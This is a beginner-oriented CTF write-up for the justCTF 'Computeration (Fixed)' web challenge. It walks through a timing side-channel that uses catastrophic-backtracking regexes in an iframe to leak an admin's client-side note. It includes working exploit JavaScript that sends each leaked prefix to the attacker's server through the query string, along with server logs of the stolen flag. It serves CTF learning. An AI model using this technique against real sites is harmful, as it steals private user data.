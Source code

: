 # Computeration (Fixed)  
**Catagory:** Web  
**Difficulty:** Hard  
>  Can you get admin's note? I heard the website runs only on client-side so
> should be secure...   https://computeration-fixed.web.jctf.pro/  
If you find anything interesting give me call here: https://computeration-
fixed.web.jctf.pro/report

>The flag is in the format: justCTF{[a-z_]+}.

**note**: I didn't solve this challenge during the CTF, but as a web-noob, I
wanted to create a writeup that was as bit more beginner friendly for my
fellow web-noobs.

## Recon: The Webapp  
Let's start by taking a look at the source of the webapp. There are a couple
things to note right out of the gate:  
1. The `x-frame-options` header is not set, so we can `iframe` the webapp to our hearts content. _(foreshadowing?)_  
2. Notes are indeed client-side, and reside in the session's localStorage:

```js  
let notes = JSON.parse(localStorage.getItem('notes')) || [];  
```

3. Neither note creation, nor rendering is properly sanitized, however this is not useful as there is no way to turn this into anything other than a self-XSS.

4. Searches are based on the current URL, and use regex under the hood.  
```js  
function searchNote(){  
   location.hash = searchNoteInp.value;  
}

// triggers when the hash _changes_. Note that the initial page load is not
considered a "hash change"  
onhashchange = () => {  
   // example.com#search_regex -> search_regex  
   const reg = new RegExp(decodeURIComponent(location.hash.slice(1)));  
   const found = [];  
   // Compare the contents of all notes to the provided regex,  
   // If they match, add their title to the "found" list  
   notes.forEach(e=>{  
       if(e.content.search(reg) !== -1){  
           found.push(e.title);  
       }  
   });  
   notesFound.innerHTML = found;  
}  
```

Being able to control the search by url will become important later, because
it allows us to interact with the webapp, even if we can only control the url.

## Recon: The Report Function  
Let's now focus on the second part of the challenge:  
> If you find anything interesting give me call here: https://computeration-
> fixed.web.jctf.pro/report

If we visit the report link, we are greeted by a form where we can input a url
for the admin to inspect. Let's first test if there are any restriction on the
report url.  
First, start a `nc` listener on a publicly reachable IP and port. Then submit
`http://[IP]:[Port]` to the admins form. Within a few seconds, the `nc`
terminal shows that the admin has connected to our server.  
Nice! this means that we can create our own malicious webpage and submit it
for review later.

## The Vulnerability  
The main vulnerability in the webapp is that we can make another user perform
a search on their private data, using a regex that we provide.  
  
This is an issue, because we can construct regexes that can take a long time
to complete, if and only if, they match a certain prefix. We can abuse this to
leak the flag char by char, based on how long it takes to perform a search.  
  
Here is an example of such a regex:  
```js  
// Prefix: "justCTF"  
// Guess : "a"  
let regex = "^(?=justCTF{a).*.*.*.*.*.*.*.*.*.*ABCDE";  
```  
If the flag does not start with "justCTF{a", the regex engine will quickly
return with no matches. However, if the flag does start with "justCTF{a", the
regex engine suddenly needs to evaluate an exponential number of ways to match
the flag with the ".\*"-chain.  

The final secret-sauce is the last part of the regex. Without it, the engine
can instantly return a match, since the flag matches `^justCTF{a.*`.

## Exploitation  
> Full exploit code is [available on
> github](https://github.com/RickdeJager/CTF/tree/master/JUSTCAT2020/web/computeration/code),
> this section will cover only the juicy parts.  

### The Game Plan  
1. Load an `iframe` that contains the webapp.  
1. Perform a regex search in the `iframe` to guess the next character of the flag.  
1. Queue another task and measure how long it takes to complete.  
1. If the task takes longer than expected, the regex engine must have slowed down our thread. This means our guess was correct.

Initially, I used an `async` function with a timeout to perform measurements.
However, this approach only works in the challenge server is single threaded.
Otherwise the measurement will simply be performed on another thread due to
"Site Isolation" (see [xsleaks](https://xsleaks.dev/docs/attacks/timing-
attacks/execution-timing/)).  
  
In a nutshell, **Chrome isolates javascript processes by their respective
domains**, so we need a way to create a task under the challenge servers
domain. To do this, we will just load a new `iframe` with
`src=https://computeration-fixed.web.jctf.pro/#` for each guess.

### Guessing The Next Character

The following two functions are used to guess a character. The `delta` and
`threshold` values, as well as the "difficulty formula" are chosen such that a
successful guess takes ~200ms, while a failure takes only a few ms at most.  

```js

function testChar(c) {  
 // Measure the initial time  
 var start = performance.now();

 // Perform a slow regex search in the iframe  
 // The number of ".*"'s goes up as we learn more of the flag, to keep the  
 // regex sufficiently difficult.  
 var dif = 6 + Math.floor(Math.log(known.length) / 2);  
 var regex = "^(?="+known+c+")"+ ".*".repeat(dif) +"ABCDE$";  
 ifr.src = url+encodeURIComponent(regex);  
 // Sleep for a few ms, to ensure the regex engine is churning when we load
the second iframe  
 await sleep(delta);

 // Setup a measurement by creating a new iframe on the challenge domain.  
 var ifr2 = document.createElement('iframe');  
 ifr2.src = url;  
 ifr2.onload = measure(start, c);  
 document.body.appendChild(ifr2);  
}

async function measure(start, c) {  
 var time = performance.now() - start - delta;  
 console.log("[%s: %d ms] %s", c, time, known);

 // This took longer than usual, indicating regex-bullshittery  
 if (time > threshold) {  
   // Update the "known" variable with the new character  
   known = known + c;  
   // Add the current flag to the url so we can see it in our server logs  
   window.location = window.location.origin + window.location.pathname + "?" +
known;  
 }  
}

```

This code is easily turned into a bruteforcer by looping over the entire
alphabet and testing each character. Note that you must also exfiltrate the
flag somehow. I chose to save it in the query string, which shows up in most
webserver logs.

### Hosting the exploit  
To host this exploit, create a simple webpage that loads the exploit script.
This webpage must never finish loading, since the bot will leave our site when
it does. This can be fixed by adding an image that loads slowly.  
```html  
![](https://deelay.me/10000/http://example.com)  
```

Now we are ready to actually host our exploit, which we can do with pythons
webserver for example. Next, we send the admin a link to our hosted page.
Within a few seconds, the admin connects and we start to receive parts of the
flag.  

The admins connection will timeout at some point, so it is important that the
exploit code reads the partial flag from the query string such that it can
resume. Using the above code you can leak about two or three characters per
attempt.  
```  
ctf@ctf-vps:~/justCAT$ python3 -m http.server 1337  
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...  
[...]  
206.189.107.148 - - [05/Feb/2021 16:56:24] "GET /hack.html?justCTF{no_refere
HTTP/1.1" 200 -  
206.189.107.148 - - [05/Feb/2021 16:56:32] "GET /hack.html?justCTF{no_referer
HTTP/1.1" 200 -  
206.189.107.148 - - [05/Feb/2021 16:56:35] "GET /hack.html?justCTF{no_referer_
HTTP/1.1" 200 -  
[...]  
206.189.107.148 - - [05/Feb/2021 16:58:03] "GET
/hack.html?justCTF{no_referer_typo_ehhhhhh HTTP/1.1" 200 -  
206.189.107.148 - - [05/Feb/2021 16:58:07] "GET
/hack.html?justCTF{no_referer_typo_ehhhhhh} HTTP/1.1" 200 -  
```

```  
flag: justCTF{no_referer_typo_ehhhhhh}  
```

## Demo  
The victims chrome session can be seen in the top half of the screen. The
bottom half of the screen shows the requests received by our PHP server. The
flag is slowly extracted over the course of a few minutes.

![](https://raw.githubusercontent.com/RickdeJager/CTF/master/JUSTCAT2020/web/computeration/res/demo.gif)

## Acknowledgement and Links  
I wrote this writeup after the CTF was over, mainly to gain a better
understanding of web challenges. I started by reading the [writeup written by
the challenge author](https://ctftime.org/writeup/25869), which also contains
a lot of links to other great resources.  

Original writeup
(https://github.com/RickdeJager/CTF/blob/master/JUSTCAT2020/web/computeration/writeup.md).